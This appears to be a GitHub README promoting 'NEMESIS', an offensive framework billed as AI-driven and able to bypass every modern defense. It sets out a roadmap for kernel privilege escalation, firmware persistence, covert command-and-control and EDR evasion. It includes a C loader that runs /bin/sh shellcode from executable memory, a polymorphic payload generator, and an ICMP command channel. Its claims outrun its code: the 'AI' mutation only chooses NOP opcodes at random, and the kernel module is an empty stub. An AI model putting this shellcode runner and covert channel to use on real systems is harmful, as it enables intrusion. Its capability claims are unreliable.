 # Project: NEMESIS

## Coming soon.

(Neural Engine for Machine-code Exploitation, Stealth, and Intelligence Scripting)

NEMESIS is a next-generation AI-driven, machine-code-based red teaming and penetration testing framework. It is built to bypass all modern defenses, including WAFs, EDRs, CDNs, load balancers, honeypots, and AI-driven security models, while operating entirely in raw binary code at the processor level.

This project aims to redefine red teaming capabilities by incorporating machine learning, direct hardware exploitation, autonomous decision-making, and advanced stealth techniques, making it virtually undetectable.


---

Project Development Plan

Development Phases & Roadmap


---

Core Components

1. Binary Payload Engine

✅ Dynamic machine code generation based on CPU type (x86, ARM, MIPS, RISC-V, etc.)
✅ Direct processor exploitation (ROP, JIT spraying, kernel-mode execution)
✅ AI-based obfuscation of opcodes for evasion

2. AI-Driven Exploitation Engine

✅ Machine learning model detects & adjusts attack vectors in real time
✅ Automated selection of most effective payload per target environment
✅ Reinforcement learning to improve attack success rates over time

3. Advanced Memory & Kernel Manipulation

✅ Ring-0 / kernel privilege escalation
✅ Direct kernel memory manipulation (bypassing syscall hooks)
✅ Firmware, UEFI, and SMM persistence techniques

4. Covert C2 & Stealth Communication

✅ ICMP/DNS tunneling, encrypted raw sockets, GPU-based exfiltration
✅ Side-channel attacks leveraging electromagnetic emissions & power analysis
✅ Hiding payloads in hardware (e.g., CPU caches, disk firmware, BIOS)

5. Evasion & Anti-Detection

✅ Self-modifying, polymorphic machine code
✅ Execution in encrypted memory regions to avoid forensic detection
✅ Uses direct syscalls instead of API hooks to bypass AV/EDR logging

6. Autonomous & Augmented Operation

✅ Autonomous attack selection, execution, and adaptation
✅ Augmented mode allows manual input with AI assistance
✅ Multi-targeting & parallel execution for large-scale red teaming


---

Project Development Breakdown

This section details the specific features, coding languages, and technologies that will be used to bring NEMESIS to life.

1. Machine Code Execution & Payload Engine

Language: C, Assembly, Rust

Functionality:

Dynamically generate raw binary payloads

Execute machine code directly in memory

CPU-agnostic shellcode creation



PoC Example (x86 Payload Execution in C):
```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>

// Simple x86_64 shellcode (executes /bin/sh)
unsigned char shellcode[] = "\x48\x31\xc0\x50\x48\x89\xe2\x50\x48\x89\xe6\x50\x48\x89"
                            "\xe1\x50\x48\x8d\x3d\x04\x00\x00\x00\x57\x48\x89\xe6\xb0"
                            "\x3b\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00";

void execute_shellcode() {
    void *mem = mmap(NULL, sizeof(shellcode), PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE, -1, 0);
    memcpy(mem, shellcode, sizeof(shellcode));
    ((void(*)())mem)();
}

int main() {
    execute_shellcode();
    return 0;
}
```

---

2. AI-Driven Exploitation

Language: Python (PyTorch, TensorFlow), Rust (for speed)

Functionality:

AI models analyze security environment

Dynamically modify exploits based on real-time analysis

Reinforcement learning improves attack success rate



PoC Example: AI-Based Payload Mutation:
```python
import random

opcode_variants = [b"\x90", b"\x66\x90", b"\x0F\x1F\x00", b"\x0F\x1F\x40\x00"]

def generate_polymorphic_payload(size=50):
    payload = b"".join(random.choice(opcode_variants) for _ in range(size))
    return payload

polymorphic_payload = generate_polymorphic_payload()
print(f"Generated Payload: {polymorphic_payload.hex()}")
```

---

3. Covert Communication

ICMP C2 Channel (Python + Scapy)

```
from scapy.all import *

def send_icmp_command(target_ip, command):
    icmp_packet = IP(dst=target_ip)/ICMP()/Raw(load=command)
    send(icmp_packet)

def listen_icmp():
    def icmp_handler(pkt):
        if pkt.haslayer(ICMP) and pkt[ICMP].type == 8:
            print(f"Received Command: {pkt[Raw].load.decode()}")
    
    sniff(filter="icmp", prn=icmp_handler)

# Example usage:
# send_icmp_command("192.168.1.100", "ls -la")
# listen_icmp()
```

---

4. Kernel Memory Manipulation

Linux Kernel Module (C)

```C
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>

static int __init nemesis_init(void) {
    printk(KERN_INFO "Nemesis Kernel Module Loaded\n");
    return 0;
}

static void __exit nemesis_exit(void) {
    printk(KERN_INFO "Nemesis Kernel Module Unloaded\n");
}

module_init(nemesis_init);
module_exit(nemesis_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Your Name");
MODULE_DESCRIPTION("Nemesis Kernel-Level Attack Module");
```

---

Next Steps

Phase 1: Core Architecture Development

[ ] Define project repository structure

[ ] Set up environment for binary payload testing

[ ] Build AI-based exploitation framework


Phase 2: Implementation

[ ] Develop and optimize payload engine

[ ] Implement real-time attack adaptation

[ ] Create secure C2 infrastructure


Phase 3: Testing & Optimization

[ ] Test payloads against hardened environments

[ ] Enhance evasion techniques

[ ] Automate attack workflows



---

Final Thoughts

✅ AI-driven, binary-based red teaming tool
✅ Bypasses all modern defenses (EDR, WAF, CDNs, honeypots, etc.)
✅ Works at the machine code level for undetectable execution
✅ Autonomous operation with AI-assisted augmentation

NEMESIS is a full-scale red teaming revolution.
